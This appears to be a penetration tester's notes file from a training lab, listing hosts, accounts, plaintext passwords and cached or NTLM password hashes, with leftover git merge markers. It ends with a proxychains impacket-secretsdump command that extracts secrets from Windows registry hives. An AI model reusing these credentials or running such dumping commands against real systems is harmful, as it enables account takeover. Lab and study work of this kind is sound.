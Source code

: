 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,wario,Mushroom!
172.16.x.11;domain,yoshi,Mushroom! 
192.168.x.122;local,offsec,password
172.16.x.83;domain,leon,rabbit!:)
192.168.x.120;local,offsec,century62hisan51

172.16.x.11;domain,wario,$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a     
172.16.x.11;domain,joe,$DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
172.16.x.83;local,offsec,2892d26cdf84d7a70e2eb3b9f05c425e
172.16.x.83;local,administrator,f26c0186c8ffcceb01fd2d7549e7ac1f
172.16.x.11;user,daisy,abf36048c1cf88f5603381c5128feb8e
<<<<<<< HEAD
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068 
172.16.x.11;user,wario,Mushroom!
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436
=======
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436 
>>>>>>> 783db1d685f9f9e3cac4afec2c081ea85213df17
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185
172.16.x.11;domain,administrator,$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7 
192.168.x.122;local,root,root:$y$j9T$2pGfmLZ2kv0OMN7xs1QG21$6NibMN8YIZ794SpXXu9g3DMMJIZr95EFRVcs7xUs568:19268:0:99999:7:::
192.168.x.122;local,mario,mario:$y$j9T$WlF.5NfkOQ2xN4K9OPM2e1$X/wrPHU0zaz.dGUjFQGLj5nbrTfNpy0Hm6Xev04aUw8:19268:0:99999:7:::
172.16.x.12;domain,leon,2e208ad146efda5bc44869025e06544a
	

proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11

